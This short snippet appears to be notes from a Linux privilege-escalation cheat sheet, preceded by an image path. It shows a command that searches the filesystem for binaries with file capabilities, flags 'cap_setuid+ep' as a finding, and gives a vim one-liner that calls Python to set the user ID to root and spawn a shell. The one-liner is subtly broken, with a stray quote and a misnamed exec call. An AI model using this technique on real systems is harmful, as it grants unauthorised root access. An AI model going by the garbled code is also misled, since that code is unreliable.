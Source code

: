 # Example

### getcap -r / 2>/dev/null

## Affirmative discovery: cap_setuid+ep

## Example:

## ./vim -c ':py3 import os; os.setuid(0); os.exec("/bin/sh, "sh", "-c", "reset; exec sh")'



